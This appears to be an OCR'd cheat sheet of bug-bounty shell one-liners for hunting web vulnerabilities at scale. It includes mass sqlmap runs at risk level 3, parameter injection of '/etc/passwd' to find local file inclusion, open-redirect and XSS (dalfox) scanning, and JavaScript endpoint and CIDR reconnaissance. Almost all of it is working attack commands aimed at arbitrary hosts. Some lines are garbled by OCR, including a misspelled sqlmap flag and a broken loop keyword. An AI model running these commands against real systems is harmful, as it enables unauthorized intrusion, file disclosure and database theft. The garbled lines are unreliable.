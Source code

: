 **Find SQLi at scale**

`# collect target urls`\
``\ `subfinder -d site.com -silent - all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a urls`\``\
`# filter potential SQLi Url`\
`cat urls | gf sqli | tee -a sqli`\
\`\`\
`# run test`\
`while read line; do sqlmap -u $line --parse-errors --curent-db --invalid-logical --invalid-bignum --invalid-string --risk 3; done < sqli`

**Local File Inclusion**

```bash
gau HOST | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

**Open-redirect**

```bash
export LHOST="URL"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

```bash
cat URLS.txt | gf url | tee url-redirect.txt && cat url-redirect.txt | parallel -j 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null
```

**XSS**

```bash
gospider -S URLS.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee OUT.txt
```

**Find JavaScript Files**

```bash
assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done
```

**Extract Endpoints from JavaScript**

```bash
cat FILE.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

**Get CIDR & Org Information from Target Lists**

```bash
for HOST in $(cat HOSTS.txt);do echo $(for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; d
one | uniq); done
```
